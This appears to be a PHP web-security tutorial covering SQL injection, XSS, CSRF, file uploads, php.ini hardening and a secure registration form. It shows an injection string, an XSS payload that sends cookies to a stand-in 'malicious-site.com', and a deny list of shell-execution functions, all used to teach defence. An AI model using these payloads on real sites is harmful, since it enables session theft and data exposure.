


# PHP Security Overview

## Introduction

Security is a critical aspect of web development that cannot be overlooked. PHP, as one of the most popular languages for web development, is often targeted by attackers due to its widespread use and the fact that security vulnerabilities in PHP applications can have serious consequences.

This guide provides a comprehensive overview of PHP security concepts, common vulnerabilities, and best practices to help you build secure web applications. Whether you're building a simple contact form or a complex web application, understanding these security principles is essential.

## Why PHP Security Matters

PHP powers approximately 77% of websites with a known server-side programming language. This popularity makes PHP applications a common target for attackers. A security breach can lead to:

- Unauthorized access to sensitive data
- Compromised user accounts
- Defaced or damaged websites
- Server compromise
- Legal and financial consequences

## Common PHP Security Vulnerabilities

### 1. SQL Injection

SQL injection occurs when an attacker can insert malicious SQL code into a query that your application sends to the database.

#### Vulnerable Example:

```php
// Vulnerable code
$username = $_POST['username'];
$query = "SELECT * FROM users WHERE username = '$username'";
$result = mysqli_query($connection, $query);
```

An attacker could input: `' OR '1'='1` as the username, resulting in a query that returns all users:

```sql
SELECT * FROM users WHERE username = '' OR '1'='1'
```

#### Secure Example:

```php
// Secure code using prepared statements
$username = $_POST['username'];
$stmt = $connection->prepare("SELECT * FROM users WHERE username = ?");
$stmt->bind_param("s", $username);
$stmt->execute();
$result = $stmt->get_result();
```

### 2. Cross-Site Scripting (XSS)

XSS allows attackers to inject client-side scripts into web pages viewed by other users.

#### Vulnerable Example:

```php
// Vulnerable code
echo "Welcome, " . $_GET['name'] . "!";
```

If an attacker sets the 'name' parameter to `<script>document.location='https://malicious-site.com/steal.php?cookie='+document.cookie</script>`, this script would execute in the victim's browser.

#### Secure Example:

```php
// Secure code
echo "Welcome, " . htmlspecialchars($_GET['name'], ENT_QUOTES, 'UTF-8') . "!";
```

### 3. Cross-Site Request Forgery (CSRF)

CSRF tricks a user's browser into executing unwanted actions on a site where they're authenticated.

#### Protection Example:

```php
// Generate a CSRF token
session_start();
if (empty($_SESSION['csrf_token'])) {
    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}

// In your form
echo '<form method="post" action="process.php">';
echo '<input type="hidden" name="csrf_token" value="' . $_SESSION['csrf_token'] . '">';
echo '<!-- Rest of your form -->';
echo '</form>';

// When processing the form
if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !== $_SESSION['csrf_token']) {
    die('CSRF token validation failed');
}
```

### 4. File Upload Vulnerabilities

Insecure file uploads can allow attackers to upload malicious files to your server.

#### Secure File Upload Example:

```php
// Secure file upload handling
$allowed_types = ['image/jpeg', 'image/png', 'image/gif'];
$max_size = 1024 * 1024; // 1MB

if ($_FILES['upload']['size'] > $max_size) {
    die("File too large");
}

if (!in_array($_FILES['upload']['type'], $allowed_types)) {
    die("Invalid file type");
}

// Generate a safe filename
$filename = md5(uniqid(rand(), true)) . '.jpg';
$destination = '/safe/upload/path/' . $filename;

// Move to a directory that can't execute files
if (move_uploaded_file($_FILES['upload']['tmp_name'], $destination)) {
    echo "File uploaded successfully";
} else {
    echo "Upload failed";
}
```

## PHP Security Best Practices

Let's explore some essential security practices for PHP development:

### 1. Keep PHP Updated

Always run the latest stable version of PHP to benefit from security patches and improvements.

### 2. Configure PHP Securely

Modify your `php.ini` file with secure settings:

```ini
; Disable dangerous functions
disable_functions = exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source

; Hide PHP version
expose_php = Off

; Restrict file uploads if not needed
file_uploads = Off

; Set secure cookie parameters
session.cookie_httponly = 1
session.cookie_secure = 1
session.use_only_cookies = 1
```

### 3. Implement Input Validation

Always validate and sanitize all user inputs:

```php
// Validate email
$email = filter_var($_POST['email'], FILTER_VALIDATE_EMAIL);
if (!$email) {
    die("Invalid email format");
}

// Validate integer
$id = filter_var($_POST['id'], FILTER_VALIDATE_INT);
if ($id === false) {
    die("Invalid ID");
}
```

### 4. Use Secure Authentication

Implement strong authentication mechanisms:

```php
// Secure password hashing
$password = $_POST['password'];
$hashed_password = password_hash($password, PASSWORD_DEFAULT);

// Later, when verifying:
if (password_verify($input_password, $stored_hash)) {
    // Password is correct
} else {
    // Password is incorrect
}
```

### 5. Security Headers

Set appropriate security headers in your PHP application:

```php
// Set security headers
header("Content-Security-Policy: default-src 'self'");
header("X-Content-Type-Options: nosniff");
header("X-Frame-Options: SAMEORIGIN");
header("X-XSS-Protection: 1; mode=block");
```

## Security Vulnerability Flow

Let's visualize a typical security vulnerability exploitation flow:



## Real-World Example: Secure User Registration System

Let's build a simple but secure user registration system:

```php
<?php
// Database connection
$db = new PDO('mysql:host=localhost;dbname=myapp', 'username', 'password');
$db->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

// Initialize CSRF token
session_start();
if (empty($_SESSION['csrf_token'])) {
    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}

// Process form submission
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    // Validate CSRF token
    if (!hash_equals($_SESSION['csrf_token'], $_POST['csrf_token'])) {
        die("CSRF token validation failed");
    }
    
    // Validate email
    $email = filter_var($_POST['email'], FILTER_VALIDATE_EMAIL);
    if (!$email) {
        die("Invalid email format");
    }
    
    // Validate username (alphanumeric only)
    $username = $_POST['username'];
    if (!preg_match('/^[a-zA-Z0-9_]+$/', $username)) {
        die("Username can only contain letters, numbers, and underscores");
    }
    
    // Validate password strength
    $password = $_POST['password'];
    if (strlen($password) < 8) {
        die("Password must be at least 8 characters long");
    }
    
    // Hash password
    $hashed_password = password_hash($password, PASSWORD_DEFAULT);
    
    try {
        // Check if email already exists
        $stmt = $db->prepare("SELECT id FROM users WHERE email = ?");
        $stmt->execute([$email]);
        if ($stmt->fetchColumn()) {
            die("Email already registered");
        }
        
        // Insert new user
        $stmt = $db->prepare("INSERT INTO users (username, email, password) VALUES (?, ?, ?)");
        $stmt->execute([$username, $email, $hashed_password]);
        
        echo "Registration successful!";
    } catch (PDOException $e) {
        // Log error but don't expose details to user
        error_log($e->getMessage());
        die("An error occurred during registration");
    }
}
?>

<!-- Registration form -->
<form method="post" action="">
    <input type="hidden" name="csrf_token" value="<?php echo $_SESSION['csrf_token']; ?>">
    
    <label for="username">Username:</label>
    <input type="text" id="username" name="username" required>
    
    <label for="email">Email:</label>
    <input type="email" id="email" name="email" required>
    
    <label for="password">Password:</label>
    <input type="password" id="password" name="password" required>
    
    <button type="submit">Register</button>
</form>
```

This example demonstrates:
- CSRF protection
- Input validation and sanitization
- Secure password hashing
- Prepared statements for database queries
- Error handling without information disclosure

## Defense in Depth Approach

Security is most effective when implemented in layers. This diagram illustrates the concept of defense in depth:



## Summary

Securing PHP applications requires vigilance and adherence to best practices:

1. **Always validate and sanitize user input**
2. **Use prepared statements for database operations**
3. **Keep PHP and all dependencies updated**
4. **Implement proper authentication and session management**
5. **Apply the principle of least privilege**
6. **Use security headers to protect against client-side attacks**
7. **Employ a defense-in-depth approach**

By following these principles, you can significantly reduce the risk of security vulnerabilities in your PHP applications. Remember that security is an ongoing process, not a one-time implementation.

## Additional Resources

- [PHP Security Manual](https://www.php.net/manual/en/security.php)
- [OWASP Top Ten](https://owasp.org/www-project-top-ten/)
- [PHP Security Checklist](https://phpsecurity.readthedocs.io/en/latest/index.html)

## Exercises

1. **Basic Validation**: Create a form that validates different types of user input (email, phone number, username, etc.) using PHP's filter functions.

2. **Secure Database**: Modify an existing database query to use prepared statements instead of direct string concatenation.

3. **Password Strength Checker**: Build a simple password strength checker that evaluates length, complexity, and common patterns.

4. **File Upload System**: Develop a secure file upload system that validates file types, sizes, and renames files to prevent malicious executions.

5. **CSRF Protection**: Add CSRF protection to an existing form by implementing tokens and validation.